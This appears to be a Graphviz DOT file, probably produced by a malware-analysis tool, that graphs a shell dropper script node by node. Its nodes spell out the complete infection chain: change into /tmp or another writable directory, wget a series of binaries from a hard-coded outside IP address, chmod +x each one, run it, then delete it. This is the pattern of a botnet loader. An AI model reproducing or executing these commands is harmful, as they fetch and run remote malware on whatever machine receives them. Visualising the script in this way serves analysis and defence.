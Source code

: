 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://173.242.118.143/512 "];
10 -> 12 [label=";,"];
12 [label="chmod +x 512 "];
12 -> 14 [label=";,"];
14 [label="./512 "];
14 -> 16 [label=";,"];
16 [label="rm -rf 512 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://173.242.118.143/1024 "];
28 -> 30 [label=";,"];
30 [label="chmod +x 1024 "];
30 -> 32 [label=";,"];
32 [label="./1024 "];
32 -> 34 [label=";,"];
34 [label="rm -rf 1024 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://173.242.118.143/4096 "];
46 -> 48 [label=";,"];
48 [label="chmod +x 4096 "];
48 -> 50 [label=";,"];
50 [label="./4096 "];
50 -> 52 [label=";,"];
52 [label="rm -rf 4096 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://173.242.118.143/6024 "];
64 -> 66 [label=";,"];
66 [label="chmod +x 6024 "];
66 -> 68 [label=";,"];
68 [label="./6024 "];
68 -> 70 [label=";,"];
70 [label="rm -rf 6024 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://173.242.118.143/8096 "];
82 -> 84 [label=";,"];
84 [label="chmod +x 8096 "];
84 -> 86 [label=";,"];
86 [label="./8096 "];
86 -> 88 [label=";,"];
88 [label="rm -rf 8096 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://173.242.118.143/1337 "];
100 -> 102 [label=";,"];
102 [label="chmod +x 1337 "];
102 -> 104 [label=";,"];
104 [label="./1337 "];
104 -> 106 [label=";,"];
106 [label="rm -rf 1337 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://173.242.118.143/666 "];
118 -> 120 [label=";,"];
120 [label="chmod +x 666 "];
120 -> 122 [label=";,"];
122 [label="./666 "];
122 -> 124 [label=";,"];
124 [label="rm -rf 666 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://173.242.118.143/69 "];
136 -> 138 [label=";,"];
138 [label="chmod +x 69 "];
138 -> 140 [label=";,"];
140 [label="./69 "];
140 -> 142 [label=";,"];
142 [label="rm -rf 69 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://173.242.118.143/19 "];
154 -> 156 [label=";,"];
156 [label="chmod +x 19 "];
156 -> 158 [label=";,"];
158 [label="./19 "];
158 -> 160 [label=";,"];
160 [label="rm -rf 19 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://173.242.118.143/fuck12 "];
172 -> 174 [label=";,"];
174 [label="chmod +x fuck12 "];
174 -> 176 [label=";,"];
176 [label="./fuck12 "];
176 -> 178 [label=";,"];
178 [label="rm -rf fuck12 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://173.242.118.143/mydadissatan "];
190 -> 192 [label=";,"];
192 [label="chmod +x mydadissatan "];
192 -> 194 [label=";,"];
194 [label="./mydadissatan "];
194 -> 196 [label=";,"];
196 [label="rm -rf mydadissatan "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://173.242.118.143/ktnv2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x ktnv2 "];
210 -> 212 [label=";,"];
212 [label="./ktnv2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf ktnv2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://173.242.118.143/googleit "];
226 -> 228 [label=";,"];
228 [label="chmod +x googleit "];
228 -> 230 [label=";,"];
230 [label="./googleit "];
230 -> 231 [label=";,"];
}
